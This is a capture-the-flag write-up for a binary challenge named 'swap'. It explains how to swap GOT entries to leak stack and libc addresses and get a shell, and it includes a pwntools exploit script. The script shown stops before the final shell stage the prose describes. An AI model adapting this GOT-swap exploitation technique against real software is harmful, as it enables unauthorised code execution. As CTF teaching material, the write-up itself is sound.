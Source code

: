 ```c
  }
}
````

 We can swap the content of two arbitrary address. Our final goal is to swap one gadget and execute it. 

 To begin with, we use blank bss *0x601058* as temporary exchange address. Then, we can swap `printf` and `atoi` to leak address. Since we have input limitation, we can only pass "%p" to leak stack pointer. Also, we need to restore the address of `atoi` and `printf` to keep program running normally. 

To make our ROP chain, we need to extend the stack via `__libc_csu_init` while the program is a PIE file. Here, we swap `printf` and `setvbuf` first. But the problem is how can we send the *plt* to `printf`. The solution is storing our `setvbuf` in stack. By extending the stack via `exit()` (now is restart the function). We can swap the *plt* rather than *got* via using stack address as swap target. 

Finally, we can leak `system`. After swapping `system` and `atoi`, we get shell.

```python
from pwn import *

def set_addr(addr1, addr2):
    r.sendlineafter('choice:', '1')
    r.sendlineafter('address:', str(addr1))
    r.sendlineafter('address:', str(addr2))
    

def swap():
    r.sendlineafter('choice:', '2')


r = process('./swap')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

exit_got = 0x601018
atoi_got = 0x601050
printf_got = 0x601038
setvbuf_got = 0x601048
stderr = 0x6010a0
    
set_addr(printf_got, 0x601058)
swap()
set_addr(atoi_got, 0x601058)
swap()

r.sendlineafter('choice:', '%p')
r.recvline()
stack_leak = r.recv(14)
stack_addr = int(stack_leak, 16)

r.sendlineafter('address:', str(0x601058))
r.sendlineafter('address:', str(atoi_got))
swap()

set_addr(stack_addr+114, exit_got)
swap()

set_addr(setvbuf_got, 0x601058)
swap()
r.sendlineafter('choice:', '3')
set_addr(stderr, stack_addr+50)
swap()

r.sendlineafter('choice:', '3')
```